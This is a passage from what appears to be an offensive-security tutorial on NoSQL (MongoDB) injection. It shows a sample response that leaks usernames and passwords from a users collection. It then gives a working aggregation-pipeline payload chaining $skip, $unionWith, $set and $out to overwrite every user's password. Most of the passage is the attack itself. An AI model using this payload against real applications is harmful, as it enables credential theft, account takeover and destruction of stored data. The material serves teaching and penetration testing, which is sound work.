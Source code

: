 {% tab title="Response" %}
```json
HTTP/1.1 200 OK
...

[
  {
    "_id": 4,
    "name": "Second product",
    "price": "1.99",
    "instock": false,
    "leak": [
      { "_id": 1, "username": "admin", "password": "P@ssw0rd" },
      { "_id": 2, "username": "user", "password": "hunter2" }
    ]
  },
  {
    "_id": 3,
    "name": "First product",
    "price": "2.99",
    "instock": true,
    "leak": [
      { "_id": 1, "username": "admin", "password": "P@ssw0rd" },
      { "_id": 2, "username": "user", "password": "hunter2" }
    ]
  }
]
```
{% endtab %}
{% endtabs %}

### Write data

You can do a lot with NoSQL Injection when you control the query. You might expect a `query` to only retrieve data, but with large enough control over the query you can actually alter collections and write them out to the database. By combining multiple operators we can do the following:

1. `$skip`: Get rid of any original response (`products`), to create an empty list
2. `$unionWith`: Add all documents from the `users` collection to the response
3. `$set`: Alter specific keys in the response, and write our data
4. `$out`: Write the response to a collection, overwriting all data

All of these combined into a payload will allow you to go from a `products` query, to overwriting any data in the `users` collection. You could for example set the `"password": "hacked"` for all users, including yourself:

```json
[
  {"$skip": 999},
  {"$unionWith": "users"},
  {"$set": {"password": "hacked"}},
  {"$out": "users"}
]
```
